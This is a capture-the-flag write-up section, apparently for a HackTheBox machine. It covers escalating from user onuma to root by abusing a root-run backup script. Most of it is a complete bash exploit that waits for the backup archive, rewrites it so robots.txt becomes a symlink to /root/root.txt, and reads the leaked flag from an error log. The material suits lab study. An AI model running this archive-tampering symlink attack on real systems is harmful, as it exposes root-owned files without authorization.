 ## onuma → root

---

I run some enumeration scripts, I found this process:

```bash
2018/05/29 07:56:33 CMD: UID=0    PID=24065  | /bin/bash /usr/sbin/backuperer
```

With the following script, you should get the root flag (saving the file as  `.b.sh`):

```bash
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```
